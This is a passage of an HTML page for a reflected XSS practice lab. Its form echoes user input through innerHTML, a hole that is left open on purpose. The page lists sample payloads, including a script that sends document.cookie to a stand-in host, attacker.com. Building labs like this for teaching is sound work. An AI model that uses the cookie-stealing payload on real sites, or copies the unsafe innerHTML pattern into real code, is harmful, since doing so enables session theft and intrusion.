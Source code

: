 ```html
    </style>
</head>
<body>
    <div class="container">
        <h1>Reflected XSS Lab</h1>
        <form id="xssForm">
            <textarea id="payload" placeholder="Enter your XSS payload here..."></textarea><br>
            <button type="submit">Submit</button>
        </form>

        <div class="output" id="output"></div>

        <div class="instructions">
            <h2>Instructions</h2>
            <p>To test for reflected XSS, enter the following payloads into the input field:</p>
            <ul>
                <li><strong>Basic Alert:</strong> <code>&lt;script&gt;alert('XSS')&lt;/script&gt;</code></li>
                <li><strong>Image Payload:</strong> <code>&lt;img src="x" onerror="alert('XSS')"&gt;</code></li>
                <li><strong>Event Handler:</strong> <code>&lt;input type="text" onfocus="alert('XSS')" autofocus&gt;</code></li>
                <li><strong>Stealing Cookies:</strong> <code>&lt;script&gt;fetch('https://attacker.com/steal?cookie=' + document.cookie)&lt;/script&gt;</code></li>
            </ul>
            <p><strong>Note:</strong> The payloads above are for demonstration purposes. Always ensure that you have permission to test for vulnerabilities on any system.</p>
        </div>
    </div>

    <script>
        // Get the form and output elements
        const form = document.getElementById('xssForm');
        const outputDiv = document.getElementById('output');
        const payloadInput = document.getElementById('payload');

        // Handle form submission
        form.addEventListener('submit', function(event) {
            event.preventDefault(); // Prevent page reload

            // Get the user input
            const payload = payloadInput.value;

            // Reflect the input in the output div
            // Note: This is where the XSS vulnerability is simulated
            outputDiv.innerHTML = `<h2>Hello, ${payload}!</h2>`;
        });
    </script>
</body>
</html>
```
